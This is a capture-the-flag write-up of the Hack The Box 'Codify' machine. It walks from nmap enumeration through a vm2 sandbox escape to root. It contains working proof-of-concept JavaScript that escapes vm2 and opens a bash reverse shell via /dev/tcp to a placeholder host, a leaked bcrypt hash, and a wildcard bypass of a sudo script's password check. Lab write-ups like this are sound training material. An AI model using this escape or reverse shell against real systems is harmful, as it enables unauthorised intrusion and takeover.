 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


![Codify Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_pwned.png "Pwned haha!!")

# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/home_page.PNG)

It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.

![About Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_about.PNG)

We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And... last but not least, the code editor.

![Code Editor](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/editor.PNG)

# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/contact` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.

![Got joshua](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/joshua.png)

Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...

![permissions](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/sudo-l.png)

You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.

![mysql_backup.sh](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/mysql_backup_sh.png)

It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know about the string comparison operations of bash?

![Bash Comparisons](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/bash_comp.png)

You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.

![root_en_route](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/root_on_route.png)

And the script runs. But how can we see the password from those mysql commands that's backing up the databases? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says "*pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea*".

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.

![pspy](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/pspy.png)

Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





